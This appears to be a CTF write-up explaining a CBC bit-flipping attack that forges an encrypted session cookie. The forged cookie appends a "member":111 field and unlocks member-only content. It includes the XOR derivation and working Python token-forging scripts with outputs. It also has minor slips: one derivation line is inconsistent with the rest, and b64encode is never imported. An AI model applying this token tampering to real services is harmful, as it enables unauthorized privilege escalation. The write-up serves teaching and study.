After hours of entertaining several other thoughts and conferring with my friends, I realized that I could pull off a bit flipping attack by ensuring the corrupted block ended up in a string. The `username` string was a good candidate for holding gibberish since its contents weren't necessary for a succesful decoding operation. I planned to submit enough filler input to create two extra blocks of `username` data. The first extra block would be altered by my desired bit flips and its plaintext would decode to some nonsense. After bit flipping, the second extra block's plaintext would decode to my desired plaintext, which could close off the gibberish as the `username` string, then add an extra `member` key-value pairing to overwrite the preexisting falsy one, similar to my solution for [`web/`panda-facts](#webpanda-facts).

```python
# Plaintext blocks before bit flipping
{"integrity":"d2
068b64517a277e48
1166b9b488f593",
"member":0,"user
name":"AAAAAAAAA
AAAAAAAAAAAAAAAA
AAAAAAAAAAAAAA"}

# Plaintext blocks after bit flipping
{"integrity":"d2
068b64517a277e48
1166b9b488f593",
"member":0,"user
name":"AAAAAAAAA
NONSENSENONSENSE
A","member":111}
```

With the extra filler byte blocks, my seventh plaintext block would be computed as 

$$P_7 = D_k(C_7) \oplus C_6 = \texttt{AAAAAAAAAAAAAA"\}}$$

I'd need to flip bits in $$C_6$$ such that my modified seventh plaintext would be 

$$P_7^{'} = D_k(C_7) \oplus C_6^{'} = \texttt{A","member":111\}}$$

I could construct a $$C_6^{'}$$ as 

$$C_6^{'} = C_6 \oplus \texttt{AAAAAAAAAAAAAA"\}} \oplus \texttt{A","member":111\}}$$

This would make it so that 

$$P_7^{'} = D_k(C_7) \oplus C_6^{'} \\
= D_k(C_7) \oplus (C_6 \oplus \texttt{AAAAAAAAAAAAAA"\}} \oplus \texttt{A","member":111\}}) \\
= (D_k(C_7) \oplus C_6) \oplus \texttt{AAAAAAAAAAAAAA"\}} \oplus \texttt{A","member":111\}} \\
= P_7 \oplus \texttt{AAAAAAAAAAAAAA"\}} \oplus \texttt{","member":"11"\}} \\
= \texttt{AAAAAAAAAAAAAA"\}} \oplus \texttt{AAAAAAAAAAAAAA"\}} \oplus \texttt{A","member":111\}} \\
= \texttt{A","member":111\}}
$$

I submitted my 39 `A`s to the website as my username to obtain a `token`, then wrote and ran the following script to construct my modified `token`.

```python
from base64 import b64decode
import numpy as np

token = "fZqSs1QL9eFzxnQqk/fM31dqhJTTrkecr8bOx9A3hIoKPfCgKrnibfegbWlicHyM288mgNmhHH2ZPa86iKESND17+Cv5m6MUexT7bN5jySlt3IcyfJrGBem6qoeOyG0cA8GDrVdSBgX5yrfHU8FrzBQ06dNUFDSJMleVSlpTSWc="
decoded_token = bytearray(b64decode(token))
assert(len(decoded_token) == 8*16) # 7 data blocks + 1 padding block, 16 bytes per block

sixth_cipherblock = decoded_token[16*5:16*6]
curr_plaintext = 'AAAAAAAAAAAAAA"}'
desired_plaintext = 'A","member":111}'
assert(len(curr_plaintext) == len(desired_plaintext) == 16)

curr_bytes = np.array(bytearray(curr_plaintext, "utf8"))
desired_bytes = np.array(bytearray(desired_plaintext, "utf8"))
sixth_cipherblock_bytes = np.array(bytearray(sixth_cipherblock))

modified_cipherblock = sixth_cipherblock_bytes ^ curr_bytes ^ desired_bytes
decoded_token[16*5:16*6] = bytes(modified_cipherblock) # replace C6 with C6'
print(b64encode(decoded_token))

>>> b'fZqSs1QL9eFzxnQqk/fM31dqhJTTrkecr8bOx9A3hIoKPfCgKrnibfegbWlicHyM288mgNmhHH2ZPa86iKESND17+Cv5m6MUexT7bN5jySltv+pRUL7qJs2Jyfz+uH4cA8GDrVdSBgX5yrfHU8FrzBQ06dNUFDSJMleVSlpTSWc='
```

I replaced my browser's `token` cookie with my modified one and clicked the "member-only fact" button, but got an "Invalid token" error! I was sure my approach was correct, so in the hours leading up to the end of the CTF, I triple-checked my work, reworked the script multiple times, and continued testing my code with different 39-character username inputs. The CTF ended and I still couldn't figure out what I was doing wrong, but I was determined to try the remaining inputs I hadn't gotten to before time expired. About 30 minutes after the CTF ended, I tried setting my `username` to 39 apostrophes (`'`) and used the resulting token to run pretty much the same code as I had before:

```python
from base64 import b64decode
import numpy as np

token = "fZqSs1QL9eFzxnQqk/fM31dqhJTTrkecr8bOx9A3hIoKPfCgKrnibfegbWlicHyM288mgNmhHH2ZPa86iKESNGTuy9qH3g69GrICOJ8rdmI+V5iApAuvM+m2PFzoqjuxhKSyPgQ9Dwe7hc095LmxbKN1hM1OypOfUS+DBF72Zdw="
decoded_token = bytearray(b64decode(token))
assert(len(decoded_token) == 8*16) # 7 data blocks + 1 padding block, 16 bytes per block

sixth_cipherblock = decoded_token[16*5:16*6]
curr_plaintext = "'"*14 + '"}'
desired_plaintext = 'A","member":111}'
assert(len(curr_plaintext) == len(desired_plaintext) == 16)

curr_bytes = np.array(bytearray(curr_plaintext, "utf8"))
desired_bytes = np.array(bytearray(desired_plaintext, "utf8"))
sixth_cipherblock_bytes = np.array(bytearray(sixth_cipherblock))

modified_cipherblock = sixth_cipherblock_bytes ^ curr_bytes ^ desired_bytes
decoded_token[16*5:16*6] = bytes(modified_cipherblock) # replace C6 with C6'
print(b64encode(decoded_token))

>>> b'fZqSs1QL9eFzxnQqk/fM31dqhJTTrkecr8bOx9A3hIoKPfCgKrnibfegbWlicHyM288mgNmhHH2ZPa86iKESNGTuy9qH3g69GrICOJ8rdmJYUpOF7knldqvjOUH+vCixhKSyPgQ9Dwe7hc095LmxbKN1hM1OypOfUS+DBF72Zdw='
```

This time the token worked and I got the flag!

<center><img src="/img/redpwn/panda2.png" width="70%" title="panda-facts-v2 flag"></center>